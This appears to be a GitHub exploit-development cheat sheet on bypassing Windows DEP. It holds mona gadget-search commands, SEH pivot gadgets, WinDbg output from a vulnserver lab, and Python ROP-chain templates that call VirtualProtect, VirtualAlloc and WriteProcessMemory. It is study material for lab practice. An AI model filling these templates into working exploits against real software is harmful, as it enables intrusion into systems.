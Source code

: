 # DEP bypass
Some methods and hint to bypass DEP

1. Have you overwrite EIP? 

    ```py
    !py mona find -type instr -s "ret" -m MODULE.dll
    ```

2. Have you overwrite SEH?

   ```py
    add esp, offset + ret
    mov esp, register + ret
    xchg register,esp + ret
    call register (se il registro punta al nostro buffer)
    mov reg,[ebp+0c] + call reg (or other references to seh record)
    push reg + pop esp + ret (if you control ‘reg’)
    mov reg, dword ptr fs:[0] + … + ret  (set esp indirectly, via SEH record)
    ```

3. Search mona modules without rebase
  
    ```py
    !py mona modules -cm rebase=false
    ```
    
    
4. Always remember the padding

    ```py
    ecx = pack("<I",0x68b90948)  # XOR ECX,ECX # MOV EAX,ECX # POP EBX # POP ESI # RETN
    ecx += pack('<L',0x41414141) # padding for pop ebp
    ecx += pack('<L',0x41414141) # padding for pop esi
    ```
    
5. Same for RETN 0xN

    ```py
    rop += istruzione_retn # padding for retn 0x04
    rop += istruzione_retn # padding for retn 0x04
    ```

6. Search RW module
 
    ```py
    0:000> !dh module
    ......

    SECTION HEADER #6
    .idata name
        224 virtual size
        6000 virtual address
        400 size of raw data
        1600 file pointer to raw data
        0 file pointer to relocation table
        0 file pointer to line numbers
        0 number of relocations
        0 number of line numbers
    C0300040 flags
         Initialized Data
         4 byte align
         Read Write
    ............
    
    0:000>  ? modules + 224 + 6000 + 4
    Evaluate expression: 1649435176 = 62506228
  
    0:000> !address 62506228
    Usage:                  Image
    Base Address:           62506000
    End Address:            62507000
    Region Size:            00001000 (   4.000 kB)
    State:                  00001000          MEM_COMMIT
    Protect:                00000004          PAGE_READWRITE
    Type:                   01000000          MEM_IMAGE
    Allocation Base:        62500000
    Allocation Protect:     00000080          PAGE_EXECUTE_WRITECOPY
    Image Path:             C:\Users\User\Desktop\vulnserver\essfunc.dll
    Module Name:            essfunc
    Loaded Image Name:      
    Mapped Image Name:      
    More info:              lmv m essfunc
    More info:              !lmi essfunc
    More info:              ln 0x62506228
    More info:              !dh 0x62500000
    ```

7. Get IAT
    ```py
    0:009> !dh fsws -f
        0  DLL characteristics
        0 [       0] address [size] of Export Directory
    192B50 [     1CC] address [size] of Import Directory
    1AE000 [   133E0] address [size] of Resource Directory
        0 [       0] address [size] of Exception Directory
        0 [       0] address [size] of Security Directory
        0 [       0] address [size] of Base Relocation Directory
    166C40 [      1C] address [size] of Debug Directory
        0 [       0] address [size] of Description Directory
        0 [       0] address [size] of Special Directory
        0 [       0] address [size] of Thread Storage Directory
        0 [       0] address [size] of Load Configuration Directory
        0 [       0] address [size] of Bound Import Directory
    166000 [     C40] address [size] of Import Address Table Directory
        0 [       0] address [size] of Delay Import Directory
        0 [       0] address [size] of COR20 Header Directory
        0 [       0] address [size] of Reserved Directory

    0:009> dps fsws +0x166000 L100
    00566000  7606eb20 advapi32!RegCloseKeyStub
    00566004  760731e0 advapi32!RegEnumKeyA
    00566008  7606ea50 advapi32!RegQueryValueExAStub
    005662f4  7588b6b0 KERNEL32!GetPrivateProfileStringA
    005662f8  7588ae50 KERNEL32!WritePrivateProfileStringA
    005662fc  758887a0 KERNEL32!GetModuleFileNameAStub
    ......
    0:009> dps
    ......
    ```
    
## VirtualProtect Basic Template

```py
#GOALS - VirtualProtect
#EAX 90909090 => Nop                                              
#ECX <writeable pointer> => lpflOldProtect                                
#EDX 00000040 => flNewProtect                                   
#EBX 00000201 => dwSize   512                                      
#ESP ???????? => Leave as is                                 
#EBP ???????? => Call to ESP (jmp, call, push,..) -> !py mona jmp -r esp -cpb '\x00'              
#ESI ???????? => PTR to VirtualProtect - DWORD PTR of VirtualProtect 
#EDI RETN => ROP-Nop same as EIP  --> !py mona find -type instr -s "retn" -m module.dll -cpb "\x00"
```
## VirtualProtect Sniper Template

```py
# Calling VirtualProtect with parameters
payload += struct.pack('<L', 0x77325c90)    # Pointer to kernel32.VirtualProtect()
payload += struct.pack('<L', 0x11111111)    # return address (address of shellcode, or where to jump after VirtualProtect call. Not officially apart of the "parameters"
payload += struct.pack('<L', 0x22222222)    # lpAddress
payload += struct.pack('<L', 0x33333333)    # size of shellcode (0x500 is ok)
payload += struct.pack('<L', 0x44444444)    # flNewProtect (0x40)
payload += struct.pack('<L', 0x62506d10)    # pOldProtect (any writeable address)
```

## VirtualAlloc Template
```py
#GOAL       VirtualAlloc                                         
# EAX 90909090 => Nop                                                
# ECX 00000040 => flProtect                                         
# EDX 00001000 => flAllocationType                                    
# EBX 00000001 => dwSize                                            
# ESP ???????? => Leave as is                                         
# EBP ???????? => Call to ESP (jmp, call, push,..)    !py mona jmp -r esp -cpb '\x00'                    
# ESI ???????? => PTR to VirtualAlloc - DWORD PTR of VirtualAlloc         
# EDI RETN => ROP-Nop same as EIP          !py mona find -type instr -s "retn" -m modulo.dll -cpb "\x00"   
```

## WriteProcessMemory Template
No encoding for this method! Create manually the shellcode
```py
# kernel32!WriteProcessMemory placeholder parameters
payload += struct.pack('<L', 0x7732ae50)    # Pointer to kernel32!WriteProcessMemory 
payload += struct.pack('<L', 0x61c72d10)    # RX from MODULE no aslr
payload += struct.pack('<L', 0xFFFFFFFF)    # hProccess = handle to current process (Pseudo handle = 0xFFFFFFFF points to current process)
payload += struct.pack('<L', 0x61c72d10)    # lpBaseAddress = RX from MODULE no aslr
payload += struct.pack('<L', 0x11111111)    # lpBuffer = base address of shellcode (dynamically generated)
payload += struct.pack('<L', 0x22222222)    # nSize = size of shellcode 
payload += struct.pack('<L', 0x1004dd10)    # lpNumberOfBytesWritten = writable location RW in MODULE no aslr
```
## Resources
1. https://www.corelan.be/index.php/2010/06/16/exploit-writing-tutorial-part-10-chaining-dep-with-rop-the-rubikstm-cube/
2. https://vickieli.dev/binary%20exploitation/data-execution-prevention/
3. https://connormcgarr.github.io/ROP/
4. https://trailofbits.files.wordpress.com/2010/04/practical-rop.pdf
5. https://www.fuzzysecurity.com/tutorials/expDev/7.html
6. https://h0mbre.github.io/Creating_Win32_ROP_Chains
7. https://www.shogunlab.com/blog/2018/02/11/zdzg-windows-exploit-5.html
